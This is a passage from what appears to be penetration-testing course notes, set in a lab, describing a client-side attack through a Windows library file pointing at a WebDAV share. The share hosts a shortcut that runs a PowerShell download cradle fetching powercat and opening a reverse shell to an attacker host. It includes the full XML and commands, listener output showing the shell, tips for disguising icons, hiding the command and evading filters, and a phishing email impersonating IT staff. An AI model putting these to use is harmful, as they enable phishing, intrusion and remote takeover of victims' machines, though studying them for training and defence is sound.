17:41:53.919 - INFO    :   - '/': FilesystemProvider for path '/home/kali/webdav' (Read-Write) (anonymous)
17:41:53.920 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
17:41:53.920 - WARNING : Share '/' will allow anonymous write access.
17:41:53.920 - WARNING : Share '/:dir_browser' will allow anonymous read access.
17:41:54.348 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.5.2+ds1 Python 3.9.10
17:41:54.348 - INFO    : Serving on http://0.0.0.0:80 ..
```

The output indicates that the WebDAV server is now running on port 80. Confirm this by opening `http://127.0.0.1` in your browser.



Next, create the Windows library file. You will use the Visual Studio Code application on the desktop to create your library file. It should be noted that you could also use Notepad to create the file.

Once in VSC, you'll click on "File" > "New Text File". You'll then save the empty file as `config.Library-ms` on the desktop. As soon as you save the file with this file extension, it is displayed with an icon. While the icon doesn't look dangerous, it is not commonly used by Windows and therefore may raise suspicions. To increase the chances that your victim will execute your file - change its appearance.

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are `General Library information`, `Library properties`, and `Library locations`. Build the XML code by adding and explaining the tags. You can refer to the [Library Description Schema](https://docs.microsoft.com/en-us/windows/win32/shell/library-schema-entry) for further information. Begin by adding the XML and library file's format version.

The listing below contains the namespace for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags covered will be added inside the `libraryDescription` tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

Next, you'll add two tags providing information about the library. The `name` tag specifies the name of this library. You must not confuse this with an arbitrary name you can just set randomly. You need to specify the name of the library by providing a DLL name and index. You can use `@shell32.dll,-34575` or `@windows.storage.dll,-34582` as specified on the Microsoft website. You'll use the latter to avoid any issues with text-based filters that may flag on "shell32". The `version` tag can be set to a numerical value of your choice, for example, 6.

```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

Next, you'll add the `isLibraryPinned` tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. For your targets, this may be another small detail to make the whole process fell more genuine and therefore, you'll set it to `true`. The next tag you'll add is `iconReference`, which determines what icon is used to display the library file. You must specify the value in the same format as the name element. You can use `imagesres.dll` to choose between all Windows icons. You can use index `-1002` for the Documents folder icon from the user home directories or `-1003` for the Pictures folder icon. You'll provide the latter to make it look more benign.

```xml
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

Now, add the `templateInfo` tags, which contain the `folderType` tags. These tags determine the columns and details that appear in Windows Explorer by default after opening the library. You'll need to specify a GUID that you can look up on the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype) webpage. For this example, you'll use the Documents GUID to appear as convincing as possible for the victim.

```xml
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

The next tag marks the beginning of the library locations section. In this section, you specify the storage location where your library file should point to. You'll begin by creating the `searchConnectorDescriptionList`, tag which contains a list of [search connectors](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) defined by `searchConnectorDescription`. Search connectors are used by library files to specify the connection settings to a remote location. You can specify one or more `searchConnectorDescription` elements inside the `searchConnectorDescriptionList` tags.

Inside the description of the search connector, you'll specify information and parameters for you WebDAV share. The first tag you'll add is the `isDefaultSaveLocation` tag with the value set to `true`. This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, you'll set it to `true`. Next, you'll add the `isSupported` tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. You can set it to `false`.

The most important tag is `url`, which you need to point to your previously created WebDAV share over HTTP. It is contained within the `simpleLocation` tags, which you can use to specify the remote location in a more user-friendly way as the normal `locationProvider` element.

```xml
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

The following listing shows the entire XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Save and close the file in VSC. You'll then double-click the `config.Library-ms` file on the Desktop.



When you open the directory in Explorer, you find the previously created `test.txt` file you placed in the WebDAV share. Therefore, the library file works and embeds the connection to the WebDAV share.

As a bonus, the path in the navigation bar only shows `config` without any indication that this is actually a remote location. This makes it a perfect first stage for your client-side attack.

When you re-open your file in VSC, you find that a new tag appeared named `serialized`. The tag contains base64-encoded information about the locaton of the `url` tag. Additionally, the content inside the `url` tags has changed from `http://192.168.119.2` to `\\192.168.119.2\DavWWWRoot`. Windows tries to optimize the WebDAV connection information for the [Windows WebDAV client](https://www.webdavsystem.com/server/access/windows) and therefore modifies it.



The library file still works when you double-click it, but due to the encoded information in the `serialized` tag, it may not be working on other machines or after a restart. This could result in a situation where your client-side attack fails, because Windows Explorer shows an empty WebDAV share.

To avoid running into any issues when performing this attack, you can reset the file to its original state by pasting the contents of the abovementioned XML into VSC. Unfortunately, you need to do this every time you execute the Windows library file. However, this is not a big deal since in most assessments you only need the victim to double-click the file once. Once the file has returned to its original state, you are ready to send the file to your victim.

### Stage 2: Shortcut + Payload Execution

Now that you have a working Windows library file, you'll need to create the shortcut file. The goal is to start a reverse shell by putting the .lnk shortcut file on the WebDAV share for the victim to execute.

Create the shortcut on the desktop. For this, you'll right-click on the desktop and click on "New" then on "Shortcut". In the "Create Shortcut" window, you can enter a path to a program along with arguments, which will be pointed to by the shortcut. You'll point the shortcut to PowerShell and use another download cradle to load PowerCat from your machine and start a reverse shell.

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```



> [!TIP]
> If you expect that your victims are tech-savvy enough to check where the shortcut files are pointing, you can use a handy trick. Since your provided command looks very suspicious, you could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

In the next window, enter `automatic_configuration` as the name for the shortcut file and click "Finish" to create the file.

On your machine, start a Python3 web server on port 8000 where `powercat.ps1` is located and start a Netcat listener on port 4444.

To confirm that the download cradle and the PowerCat reverse shell works, double-click the shortcut file on the desktop. After confirming that you want to run the application in the appearing window, the Netcat listener should receive a reverse shell.

```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

The pretext is an important aspect of this client-side attack. In this case you could tell the target that you are a new member of the IT team, and you need to configure all client systems for the new management platform. You'll also tell them that you've included a user-friendly configuration program. An example email for use in a real assessment is shown below.

```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```

Now, copy `automatic_configuration.lnk` and `config.Library-ms` to your WebDAV directory on your machine. For convenience, you can use the `config` library file to copy the files into the directory. In a normal assessment you would most likely send the library file via email.

Next, you'll start the Python3 web server on port 8000 to server `powercat.ps1`, WsgiDAV for your WebDAV share, and a Netcat listener on port 4444.

To upload the library file to the SMB share, you'll use `smbclient` with the `-c` parameter to specify the `put config.Library-ms` command. Before you execute smbclient, you need to change your current directory to the library file's directory. You'll also delete the previously created `test.txt` from the WebDAV share.

```bash
kali@kali:~$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password: 
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```

After you put the library file on the target's machine via smbclient, a simulated user on the system opens it and starts the reverse shell by executing the shortcut file.

```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.195] 56839
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
hr137\hsmith
```